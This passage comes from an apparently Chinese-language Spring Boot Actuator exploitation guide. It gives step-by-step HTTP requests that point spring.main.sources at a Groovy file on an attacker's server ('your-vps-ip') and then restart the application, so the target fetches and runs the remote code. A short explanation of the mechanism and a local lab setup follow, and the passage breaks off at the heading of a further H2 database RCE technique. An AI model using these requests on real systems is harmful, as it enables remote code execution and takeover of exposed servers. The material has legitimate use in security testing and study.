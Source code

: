 spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.main.sources","value":"http://your-vps-ip/example.groovy"}


```

##### 步骤三：重启应用

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded



```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json



```

#### 漏洞原理：

1.  目标机器可以通过 spring.main.sources 属性来设置创建 ApplicationContext 的额外源的 URL 地址
    
2.  restart 重启应用后，程序会请求设置的 URL 地址
    
3.  `spring-boot` 组件中的 `org.springframework.boot.BeanDefinitionLoader.java` 文件代码逻辑中会判断 url 是否以 `.groovy` 结尾
    
4.  如果 url 以 `.groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞
    

#### 漏洞环境：

repository/springboot-restart-rce

正常访问：

```
http://127.0.0.1:9098/actuator/env


```

### 0x0C：restart spring.datasource.data h2 database RCE
